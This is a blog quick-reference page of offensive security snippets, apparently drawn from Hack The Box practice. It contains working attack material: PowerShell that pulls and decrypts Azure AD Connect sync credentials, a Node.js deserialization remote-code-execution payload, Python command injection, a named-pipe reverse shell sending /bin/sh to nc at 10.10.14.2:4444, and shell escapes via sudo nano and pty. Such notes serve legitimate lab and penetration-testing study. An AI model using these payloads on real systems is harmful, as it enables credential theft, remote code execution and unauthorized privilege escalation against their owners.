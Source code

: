 ```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: false
description: "Noteable Blog Highlights and Quick-References"
---
```


# Binary Analysis

__set intel syntax in objdump, and intel mnemonic's__  
```bash
$ objdump -M intel intel-mnemonic -d FILE
$ objdump -M intel -d FILE
```

__extracting a hidden elf from a file__  

```bash
$ xxd FILE
$ dd skip=52 count=64 if=67b8601 of=elf_header bs=1
# determine elf size using the header information (offset + pagesize + number of pages)
$ dd skip=52 count=10296 if=67b8601 of=lib5ae9b7f.so bs=1
```

__demangle a stripped binary__  

```bash
nm -D --demangle binary.elf
```  




# Attacking Azure AD Password Hash Synchronization

**Key Reference:**   
https://blog.xpnsec.com/azuread-connect-for-redteam/

```powershell
Invoke-SQLCMD -Query "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration" -ServerInstance "MONTEVERDE" -Database "ADSync"

Invoke-SQLCMD -Query "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent" -ServerInstance "MONTEVERDE" -Database "ADSync"
```

```powershell
add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```  



# Node.js deserialization exploit  

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/  

```js
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec  
('uname -a', function(error, stdout, stderr)  
{ console.log(stdout) });  \n }  
()"}  
```  


In this case the () is javascripts way of immediate function invokation, the first part of the code will build the function. 

# Spawn Fully Interactive TTY
```bash
$ /bin/bash # drop out of zsh b/c not compatible
# get initial terminal session
$ ctrl-z
$ stty raw -echo # - indicates disabling the stopping of the echo
$ fg 
$ reset
```

# Shell Spawn Python

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
# Python Command Injection

```python
__import__("os"); os.system("pwd")
```

# Python code injection w/import and backpiping

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

# Nano Escape

Opening nano as sudo we can then perform:
```bash
^R^X
Reset; sh 1>&0 2>&0
```
_Where ^R^X is ctrl+R and ctrl+X._

# HTB Writeups
[KringleCon 2019](https://medium.com/@rob.mccarthy31/kringlecon-2019-write-up-ca83081a330)
[OpenAdmin](../../post/htb/openadmin)
[Postman](../../post/htb/postman)
[Craft](../../post/htb/craft)
[Sneaky - Coming Soon](../../post/htb/sneaky)
[Traverxec - Coming Soon](../../post/htb/traverxec)


